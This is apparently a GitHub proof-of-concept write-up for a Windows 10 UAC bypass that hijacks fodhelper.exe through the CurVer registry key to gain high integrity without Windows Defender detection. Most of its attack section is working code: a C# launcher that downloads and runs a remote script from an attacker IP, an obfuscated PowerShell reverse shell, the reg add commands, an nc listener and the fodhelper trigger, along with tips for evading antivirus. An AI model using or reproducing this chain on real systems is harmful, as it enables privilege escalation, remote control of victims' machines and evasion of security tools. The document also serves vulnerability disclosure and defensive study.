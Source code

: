 # UAC-Bypass-2023

## User Account Control Bypass without triggering Windows Defender
## Author: Ruggero Tafuro
## Date: 13-05-2023

## What is UAC?
UAC (User Account Control) is a security mechanism present in Windows operating systems that limits the
access of programs to user accounts with elevated privileges, such as administrators.
Its main strength is to protect the system from malware attacks, which try to exploit vulnerabilities to gain
administrator privileges and compromise the system.
UAC works by asking for explicit permission from the user whenever a program requests access to protected operating system resources, such as system folders, the system registry or security settings.
In this way, UAC prevents unauthorized or potentially harmful programs from modifying the system without the user’s consent.
Additionally, UAC can also help prevent user errors that could compromise system security. For example,
when a non-administrator user tries to perform an action that requires elevated privileges, UAC prompts
the user to provide administrator credentials to
grant permission.
In summary, the strength of UAC lies in its ability to limit the access of programs to administrator privileges and to request explicit user authorization whenever access to protected operating system resources is
requested.
This can help prevent malware attacks and user errors that could compromise system security.

## Fodhelper and the system registry:
Windows 10 environments allow users to manage language settings for a variety of Windows features
such as typing, text-to-speech etc.
When a user requests to open “Manage optional features” in Windows Settings to change the language, a
process under the name fodhelper.exe is created.
This process is running in high integrity because the binary file has the auto-elevation setting set to “true”.
“CurVer” is a Windows registry subkey that is used to specify the current version of a given object class or
registry path. This value is used to determine which version of an application or component the system
should load when prompted.
For example, when an application or component is installed on the system, it is usually recorded in the
system registry. The “CurVer” subfolder can be used to specify the current version of that application or
component, letting the system know which version to load when prompted.

## Bypass:
In Windows 10 an attacker in possession of a user with administrative privileges, but with a “medium”
level label, is allowed to generate a process with superior privileges (“high” level label).
This is possible thanks to the creation of keys within the system registry that manipulate the normal execution expected by fodhelper, so that it executes commands with elevated privileges bypassing the User
Account Contol (UAC) by executing .exe files.
Everything is reproducible without the Windows Defender detection.

## Severity:
The impact of the bypass that I personally evaluate is HIGH as it allows anyone authenticated with an administrative user with an RCE vulnerability to increase the integrity of their processes to “high”.
This exploit is currently exploitable within Windows 10 updated to the latest version.
In fact, in the following images you can see how the test system has been updated to the latest patch
available.

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/c3136cd3-ae03-4a1f-9195-63facfc40269)
*1. List of Windows Update patches installed on the system*

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/c26f4a81-832a-4923-af3b-b87165e95371)
*2. Windows Update - update to the latest available version released*

Windows Defender is correctly active in all its features
![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/1b235a9a-2110-490a-b14b-7dca5bc91487)
*3. Windows Defender features*

## PoC:
We can assume that an attacker is already inside the target machine with an administrative user (in this
case “rugge”) and has the possibility to execute commands (RCE) inside a powershell.
For convenience and clarity, the commands will be executed by the user “rugge” directly from the target
system, but everything can also be reproduced in a scenario in which the attacker executes the commands
remotely.
The target machine will have the IP as shown:

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/23d2ac14-fcb2-4d43-b7f8-1116d9ea2a96)

*4. IP Windows (target)*

While the attacking machine running Ubuntu 22.04 will have ip:

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/eea1efa5-73af-4041-8556-2f9f8cb25d1e)
*5. Ubuntu IP (attacker)*

The aim is to modify the fodhelper registers in particular HKCU:\Software\Classes\ms-settings\CurVer
pointing to a specially created one (HKCU\Software\Classes\.hack\Shell\Open\command) which will contain the executable (revs.exe) which will be run as soon as we call fodhelper.exe.

So let’s create an executable whose main purpose is to run a powershell.exe (copied from “C:\Windows\
System32\WindowsPowerShell\v1.0” and renamed to “ps.exe” inside a temporary folder “tempp ” so as
not to make Defender and/or a system user suspicious) with the sole command of executing in memory
the code contained in the file (script.ps1) that the target Windows will find at the address of the http
python simple-server that is hosted by the attacking machine (http://172.20.10.14:8000/script.ps1)
A possible source code example of the executable:

```
 using System;
 namespace PowerShellProject
 {
 class Program
 {
 static void Main(string[] args)
 {
 System.Diagnostics.Process.Start(@”C:\tempp\ps.exe”, “-c \”IEX([Net.Webclient]::new().DownloadString(‘http://172.20.10.14:8000/script.ps1’))\””);
 }
 }
 }
```

Once the code has been compiled and transferred to the target machine in the “tempp” temporary folder,
what we will have to do is to start the http python simple-server on the attacking machine with the same
listening port as the one in the “revs.exe”

```
 $ python3 -m http.server --bind 172.20.10.14 8000 
```
The script that will be requested by the target is nothing more than a simple obfuscated reverse shell to
not trigger Windows Defender:

example script.ps1 
``` 
$client = Ne’’w-Object System.Net.Sockets.TCPClient(‘172.20.10.14’,4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ‘PS ‘ + (pwd).Path + ‘> ‘;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Finally, still on the attacking machine, in another bash shell window we will start a “listener” ready to capture the outgoing connection of the reverse shell performed within the target machine.

``` 
 $ nc -lvnp 4444
``` 
So let’s go back to the target system and start executing the commands within a powershell that will
change the system registers.
The first command will launch the cmd to add a custom file association for the “.hack” extension in the
Windows registry, which allows you to open the .hack files with the revs.exe application present in the “C:\tempp\revs\revs\bin\Debug\net6.0”.

``` 
cmd /c ‘call reg add “HKCU\Software\Classes\.hack\Shell\Open\command” /v “” /d “\”C:\tempp\revs\revs\bin\Debug\net6.0\revs.exe\”” /f’
``` 

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/2e424062-0893-4ff0-8286-b29f3a69c557)
*6. Registry key associated to .hack with call to revs.exe*

The second command instead will launch cmd which sets the “.hack” extension as the default value for
displaying system settings in Windows

```
cmd /c ‘call reg add “HKCU\Software\Classes\ms-settings\CurVer” /d “.hack” /f’
```

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/3f2871ee-82e6-4137-a9d6-63debce635c1)
*7. CurVer registry key referenced to .hack registry key*

At this point everything is ready to call fodhelper and receive the connection from the target Windows on
the attacking machine

```
cmd /c ‘call fodhelper.exe’
```

With this call fodhelper will use the memory registers which will start the executable revs.exe which will
contact the python server offering the script.ps1 which, once executed, will establish a connection to the
attacking machine creating a reverse shell with integrity level “high ”

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/1fc84235-1d46-4013-96ea-2d9332034613)
*8. Execute commands writing values to the system registry and calling revs.exe*

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/63bb6a96-bc59-4c04-a8d6-fea8d550b07e)
*9.Target Windows GET request to the attacking server*

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/2b3bcfec-ab43-4a22-aeeb-81880beb86fb)
*10. Reverse shell integrity level obtained by the attacking machine*

We can also notify how Windows Defender did not get alarmed during operations and let us reach the goal
without its interference

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/b0d9c77d-32a8-4b17-9ff8-db21e1abdfc7)
*11. No threats detected by Windows Defender*

In this last image demonstrating the elevation of privileges, the integrity level (medium) of the powershell
on which we executed the commands is shown

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/e9f28102-c7d4-4400-834f-42d7a0a3035b)
*12. Original powershell integrity level*


